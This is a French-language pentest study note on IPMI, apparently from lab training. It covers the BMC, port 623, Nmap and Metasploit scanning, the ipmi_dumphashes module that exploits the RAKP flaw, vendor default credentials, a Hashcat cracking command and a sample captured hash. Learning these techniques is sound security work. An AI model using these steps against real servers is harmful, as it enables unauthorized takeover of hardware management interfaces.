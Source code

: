 # IPMI

## <mark style="color:red;">**1. Définition et Présentation**</mark>

* <mark style="color:green;">**Qu'est-ce que l'IPMI ?**</mark>
  * **L'IPMI (Intelligent Platform Management Interface)** est un ensemble de spécifications normalisées pour la gestion et la surveillance des systèmes basés sur le matériel.
  * Fonctionne indépendamment du BIOS, du CPU, du firmware, et du système d'exploitation de l'hôte.
* <mark style="color:green;">**Fonctionnalités Principales :**</mark>
  * Gestion et surveillance des systèmes même lorsque le système est éteint ou non réactif.
  * Connexion réseau directe au matériel sans accès à l'OS.
  * Permet des mises à jour à distance sans accès physique au système.

***

## <mark style="color:red;">**2. Cas d'Utilisation**</mark>

* <mark style="color:green;">**Avant le démarrage du système d'exploitation :**</mark>
  * Modifier les paramètres du BIOS.
* <mark style="color:green;">**Lorsque l'hôte est complètement éteint :**</mark>
  * Surveillance et gestion du matériel.
* <mark style="color:green;">**Après une panne du système :**</mark>
  * Accès au système pour diagnostic et réparation.

***

## <mark style="color:red;">**3. Surveillance et Gestion**</mark>

* <mark style="color:green;">**Surveillance :**</mark>
  * Température du système
  * Tension
  * État des ventilateurs
  * Alimentations
* <mark style="color:green;">**Autres fonctionnalités :**</mark>
  * Requête d'informations d'inventaire
  * Revue des journaux matériels
  * Alertes via SNMP (Simple Network Management Protocol)
* <mark style="color:green;">**Exigences :**</mark>
  * Le module IPMI nécessite une source d'alimentation et une connexion LAN pour fonctionner correctement.

***

## <mark style="color:red;">**4. Composants Clés de IPMI**</mark>

* <mark style="color:green;">**Baseboard Management Controller (BMC) :**</mark>
  * Micro-contrôleur essentiel pour IPMI.
  * Intégré dans la carte mère ou ajouté comme carte PCI.
* <mark style="color:green;">**Intelligent Chassis Management Bus (ICMB) :**</mark>
  * Interface pour la communication entre châssis.
* <mark style="color:green;">**Intelligent Platform Management Bus (IPMB) :**</mark>
  * Étend le BMC pour la communication interne.
* <mark style="color:green;">**IPMI Memory :**</mark>
  * Stocke les journaux d'événements système et les données de dépôt.
* <mark style="color:green;">**Interfaces de Communication :**</mark>
  * Interfaces locales, série et LAN.
  * ICMB et PCI Management Bus.

***

## <mark style="color:red;">**5. Protocoles et Versions**</mark>

* <mark style="color:green;">**Port de communication :**</mark>
  * **Port 623 UDP** : Utilisé pour le protocole IPMI.
* <mark style="color:green;">**Versions :**</mark>
  * **IPMI 1.5** : Version initiale.
  * **IPMI 2.0** : Version actuelle, supporte la gestion via Serial over LAN.

***

## <mark style="color:red;">**6. Analyse et Détection avec Nmap et Metasploit**</mark>

* <mark style="color:green;">**Utilisation de Nmap :**</mark>
  * Commande : `nmap -sU --script ipmi-version -p 623`
  *   Exemple de sortie :

      ```bash
      PORT    STATE SERVICE
      623/udp open  asf-rmcp
      | ipmi-version:
      |   Version: IPMI-2.0
      ```
* <mark style="color:green;">**Utilisation de Metasploit :**</mark>
  *   **Module pour scanner la version IPMI :**

      ```bash
      msf6 > use auxiliary/scanner/ipmi/ipmi_version 
      msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
      msf6 auxiliary(scanner/ipmi/ipmi_version) > run
      ```
  *   **Module pour récupérer les hachages IPMI :**

      ```bash
      msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
      msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
      msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
      ```

***

## <mark style="color:red;">**7. Identifiants Par Défaut et Sécurité**</mark>

* <mark style="color:green;">**Identifiants Par Défaut :**</mark>
  * **Dell iDRAC :** `root` / `calvin`
  * **HP iLO :** `Administrator` / mot de passe aléatoire à 8 caractères
  * **Supermicro IPMI :** `ADMIN` / `ADMIN`
* <mark style="color:green;">**Risques**</mark>**&#x20;:**
  * Les mots de passe par défaut sont souvent laissés inchangés, offrant des opportunités d'accès non autorisé.
  * **Vulnérabilité du protocole RAKP (IPMI 2.0) :**
    * Expose les hachages de mot de passe avant l'authentification.
    * Les hachages peuvent être craqués hors ligne avec des outils comme Hashcat.
*   <mark style="color:green;">**Exemple de commande Hashcat :**</mark>

    ```bash
    hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
    ```

***

## <mark style="color:red;">**9. Cas Pratiques et Exemples**</mark>

* **Exemple de Scan avec Nmap :**
  * Commande : `sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`
  *   Résultat :

      ```bash
      PORT    STATE SERVICE
      623/udp open  asf-rmcp
      | ipmi-version:
      |   Version: IPMI-2.0
      ```
* **Exemple de Scan avec Metasploit :**
  *   **Récupération des Hachages :**

      ```bash
      msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
      msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
      ```

      *   Résultat :

          {% code overflow="wrap" %}
          ```bash
          [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
          ```
          {% endcode %}

***
